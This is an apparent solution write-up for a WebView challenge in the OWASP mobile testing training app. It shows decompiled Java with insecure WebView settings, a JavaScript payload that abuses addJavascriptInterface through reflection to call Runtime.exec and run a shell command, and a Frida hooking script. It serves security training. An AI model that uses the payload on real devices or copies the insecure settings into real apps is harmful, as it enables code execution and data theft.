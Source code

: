 # OMTG-Android - 15. WebView Local - Solution

> MSTG-PLATFORM-6: "WebViews are configured to allow only the minimum set of protocol handlers required (ideally, only https is supported). Potentially dangerous handlers, such as file, tel and app-id, are disabled."<br />
> MSTG-PLATFORM-7: "If native methods of the app are exposed to a WebView, verify that the WebView only renders JavaScript contained within the app package."

**Summary of the challenge:** WebView can load local file content from the application data directory or SD card using `file://` URL sheme. Local resource can be triggered and rendered within a WebView object, thus Cross-Site Scripting (XSS) attack can be achieved in case of the JavaScript support is explicitly enabled by `setJavaScriptEnabled(true)` method.<br />
Moreover, a remote code execution vulnerability was discovered in 2012 which affects Android 4.1 (API 16) and prior versions. The issue exists due to the `addJavascriptInterface` function allows the developers to expose Java objects for WebView. Exploiting this vulnerability, a remote attacker can execute malicious code to escalate privileges, install malware on the device or extract sensitive user data by invoking the Android application's native methods via JavaScript.<br />

To identify the vulnerabilities, decompile the APK file using [JADX-GUI](https://github.com/skylot/jadx) and search for `WebView` instances in the source:
```java
public class OMTG_ENV_005_WebView_Local extends AppCompatActivity {
  final class JavaScriptInterface {
    JavaScriptInterface() {
    }
    public String getSomeString() {
      return "string";
    }
  }
  public void onCreate(Bundle savedInstanceState) {
  [...]
    public void onClick(View v) {
      ((WebView) OMTG_ENV_005_WebView_Local.this.findViewById(C0000R.id.webView2)).reload();
    }
    WebView myWebView = (WebView) findViewById(C0000R.id.webView2);
    myWebView.getSettings().setJavaScriptEnabled(true);
    myWebView.getSettings().setAllowFileAccessFromFileURLs(true);
    myWebView.setWebChromeClient(new WebChromeClient());
    myWebView.addJavascriptInterface(new JavaScriptInterface(), "jsinterface");
    myWebView.loadUrl("file:///android_asset/local.htm");
  }
}
```

The application is loading an HTML file named `local.htm` from its `asset` folder. This folder contains resources which are packed into the installer file `app-arm-debug-Android5.apk`. Based on the source code, the following conditions are met:
* JavaScript support is enabled: `setJavaScriptEnabled(true)`
* Running JavaScript is allowed in the context of file scheme URLs: `setAllowFileAccessFromFileURLs(true)`
* A JavaScript native bridge interface is defined between Android Java and JavaScript: `addJavascriptInterface(new JavaScriptInterface(), "jsinterface")`

Content of the triggered `local.htm` file:
```html
<HTML>
[...]
<script>
var String = window.jsinterface.getSomeString();
alert(String);

function execute(cmd){
  return window.jsinterface.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo \"mstg\" > /storage/emulated/0/mstg.txt']);
</script>
</body>
</HTML>
```

Tap on the WebView Local button in the challenge to execute the malicious JavaScript snippets. An alert box returns with a string, which is gained from the Java source:

<img src="https://user-images.githubusercontent.com/55597077/67219684-5c871c00-f420-11e9-8902-0863be412532.png" width="296">

To exploit both issues mentioned above in the summary paragraph, it is required to run the application on Android 4.1 (API 16) and make sure the SD card can be accessed on the location: `/storage/emulated/0/`.

<img src="https://user-images.githubusercontent.com/55597077/67219686-5d1fb280-f420-11e9-85f3-eea03ec9ffbd.png" width="296">

A text file named `mstg.txt` is created on the SD card by executing the `/system/bin/sh -c 'echo mstg > /storage/emulated/0/mstg.txt'` command:
```bash
root@android:/storage/emulated/0/ # ls -la
d--------- root     root               2019-10-21 14:21 .android_secure
d---rwxr-x system   sdcard_rw          2019-10-21 14:21 Alarms
d---rwxr-x system   sdcard_rw          2019-10-21 14:21 Android
d---rwxr-x system   sdcard_rw          2019-10-21 14:21 DCIM
d---rwxr-x system   sdcard_rw          2019-10-21 14:21 Download
d---rwxr-x system   sdcard_rw          2019-10-21 14:21 LOST.DIR
d---rwxr-x system   sdcard_rw          2019-10-21 14:21 Movies
d---rwxr-x system   sdcard_rw          2019-10-21 14:21 Music
d---rwxr-x system   sdcard_rw          2019-10-21 14:21 Notifications
d---rwxr-x system   sdcard_rw          2019-10-21 14:21 Pictures
d---rwxr-x system   sdcard_rw          2019-10-21 14:21 Podcasts
d---rwxr-x system   sdcard_rw          2019-10-21 14:21 Ringtones
----rwxr-x system   sdcard_rw        5 2019-10-21 14:45 mstg.txt
root@android:/storage/emulated/0/ # cat mstg.txt
mstg
```

The following Frida script `15_webview_local.js` hooks the `android.webkit.WebView` class to print all the URLs are loaded into WebView objects and identify the Java object's methods are accessible from JavaScript to execute arbitrary codes on Java level:
```javascript
Java.perform(function() {
  
  var WebView = Java.use("android.webkit.WebView");
  
  //Loads the given URL
  //WebView.loadUrl (String url)
  WebView.loadUrl.overload('java.lang.String').implementation = function(url) {
    console.log("[*] Loaded URL into WebView: " + url);
    this.loadUrl.overload('java.lang.String').call(this, url);
   };
  //WebView.loadUrl (String url, Map<String, String> additionalHttpHeaders)
  WebView.loadUrl.overload('java.lang.String', 'java.util.Map').implementation = function(url, additionalHttpHeaders) {
    console.log("[*] Loaded URL into WebView: " + url);
    this.loadUrl.overload('java.lang.String', 'java.util.Map').call(this, url, additionalHttpHeaders);
   };
   
  //Injects the supplied Java object into this WebView. The object is injected into all frames of the web page, including all the iframes, using the supplied name.
  //WebView.addJavascriptInterface (Object object, String name)
  WebView.addJavascriptInterface.overload('java.lang.Object','java.lang.String').implementation = function(object, name) {
    console.log("[*] Java object's methods is accessed from JavaScript: " + name);
    this.addJavascriptInterface.overload('java.lang.Object','java.lang.String').call(this, object, name);
   };
});
```

Frida console output:
```bash
C:\>frida -U sg.vp.owasp_mobile.omtg_android -l 15_webview_local.js --no-pause
     ____
    / _  |   Frida 12.6.1 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at http://www.frida.re/docs/home/

[Motorola MotoG3::sg.vp.owasp_mobile.omtg_android]-> 
[*] Java object's methods is accessed from JavaScript: jsinterface
[*] Loaded URL into WebView: file:///android_asset/local.htm
```
